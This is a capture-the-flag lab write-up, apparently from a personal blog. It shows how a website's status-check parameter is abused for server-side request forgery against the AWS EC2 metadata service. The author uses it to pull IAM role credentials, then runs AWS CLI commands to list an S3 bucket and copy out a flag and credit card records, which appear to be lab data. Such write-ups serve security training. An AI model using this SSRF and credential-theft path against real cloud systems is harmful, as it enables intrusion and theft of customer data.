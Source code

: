 ```yaml
---
title: SSRF to Pwned
layout: post
date: 2025-07-15
categories: [Writeups, PwnedLabs]
tags: [Cloud, AWS, SSRF]
author: bailee
toc: true
description: Investigate links to a potentially compromised organization’s cloud infrastructure and map out any potential risk exposure, and how far it goes. 
---
```

Lab Platform: 
: [PwnedLabs](https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/)

---

## Tools & Resources
### Tools Used

- AWS CLI


### References

- <https://hackingthe.cloud/aws/exploitation/ec2-metadata-ssrf/>

---

## Lab Walkthrough

### Enumeration

We know that the website belonging to Huge Logistics is [`http://app.huge-logistics.com/`](http://app.huge-logistics.com/). 

![image.png](/assets/img/ssrf2pwned/image.png)

I was looking around the HTML of the website, and found a pointer to an S3 bucket. 

![image.png](/assets/img/ssrf2pwned/image1.png)

I’m going to navigate to that. 

![image.png](/assets/img/ssrf2pwned/image2.png)

Oh, there’s a flag! But… I can’t navigate to it, or anything in the /backup/ directory 

I clicked around the website trying to find anything else, and came across the Status page. When I click ‘Check’, the URL (which was once `http://app.huge-logistics.com/status/status.php`) , adds a query to the end of URL. 

![image.png](/assets/img/ssrf2pwned/image3.png)

Wonder if I could add a different name to that query? Something like… the metadata service? 

![image.png](/assets/img/ssrf2pwned/image4.png)

Yep, that did it. Looks like it’s listing the directories (`dynamic`, `meta-data`, and `user-data`). I’m going to select meta-data and keep going from there until I find something interesting. 

![image.png](/assets/img/ssrf2pwned/image5.png)

Wow, so the path `169.254.169.254/latest/meta-data/iam/security-credentials/MetapwnedS3Access` gave me the CLI credentials for this role, `MetapwnedS3Access`. I’m just going to log in with those… 

### Data Exfiltration

> Note: I had to reload my VPN and everything, so those credentials are different now.
> 

```
┌──(kali㉿kali)-[~/Desktop]
└─$ aws sts get-caller-identity
{
    "UserId": "AROARQVIRZ4UCHIUOGHDS:i-0199bf97fb9d996f1",
    "Account": "104506445608",
    "Arn": "arn:aws:sts::104506445608:assumed-role/MetapwnedS3Access/i-0199bf97fb9d996f1"
}
```

Cool, so we’re using a role for an EC2 instance, the one that’s running this web server. Can I get into that S3 bucket now? 

```
┌──(kali㉿kali)-[~/Desktop]
└─$ aws s3 ls huge-logistics-storage                             
                           PRE backup/
                           PRE web/

┌──(kali㉿kali)-[~/Desktop]
└─$ aws s3 ls huge-logistics-storage/backup/
2023-05-31 18:14:05          0 
2023-05-31 18:14:47       3717 cc-export2.txt
2023-06-01 10:38:27         32 flag.txt
                                                                                                             
┌──(kali㉿kali)-[~/Desktop]
└─$ aws s3 cp s3://huge-logistics-storage/backup/cc-export2.txt -
VISA, 4929854977595222, 5/2028, 733
VISA, 4532044427558124, 7/2024, 111
VISA, 4539773096403690, 12/2028, 429
...
                                                                                                             
┌──(kali㉿kali)-[~/Desktop]
└─$ aws s3 cp s3://huge-logistics-storage/backup/flag.txt -      
```

Yep, sure can! So now I have some credit card numbers, cool, and the flag!